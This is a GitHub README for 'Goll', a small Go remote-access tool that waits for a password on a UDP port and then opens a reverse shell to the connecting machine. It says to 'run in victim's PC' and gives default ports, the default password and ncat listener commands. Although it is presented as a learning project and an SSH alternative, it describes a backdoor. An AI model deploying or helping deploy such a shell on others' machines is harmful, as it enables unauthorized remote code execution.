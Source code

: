 # Goll

## Description
`Goll` is a project I created to try to learn golang.
`Goll` is a shell that is password protected, thus making it able to open a specific
 port and being accessed from any computer, no matter what the attacker's IP is.

It allows basic shell operations, open files, download files, and so on, but it is kinda basic, focusing on being small and mainly 
because I don't pay too much attention to its development, but any improvement is well accepted.

## MO
Its functionality is pretty simple:

A UDP port is listening, waiting for a password. If the password is correct, `Goll` opens a reverse shell towards
the other machine, allowing from then on code execution.
Due to how it works, I would not say it is neither a bind nor a reverse shell, but has a bit of both: 
Bind for authentication, reverse for code execution.

This is extremely useful in cases where your IP can change, or you have multiple computers from which you want to connect,
 but don't want to enable SSH (for whatever reason there might be).

## Installation

1. Clone this repo `git clone https://github.com/hamperfait/goll.git`
2. Change code or constants(if necessary)
3. Compile
    * `go build`
4. Run in victim's PC

## Constants

Following are the default ports that are being used:
* Remote UDP listening port: `6666`
* Local UDP bind port: `5555`
* Remote TCP file server port: `4444`
* Login password `cmd`

## Connection

1. Set up a listener using ncat or any other tool `ncat -lu 5555`
2. Connect to `Goll`: `ncat IP -u 6666`
    1. Enter the password `cmd`

`Goll` will connect to the listening netcat (the `5555` one).

## Compatibility

`Goll` has been mainly used on Windows, although Linux should work as well.

More work is planned, but no schedule will be provided.

## Bugs so far

The exec once worked, but not any longer apparently... I want to look into it, but there it goes.

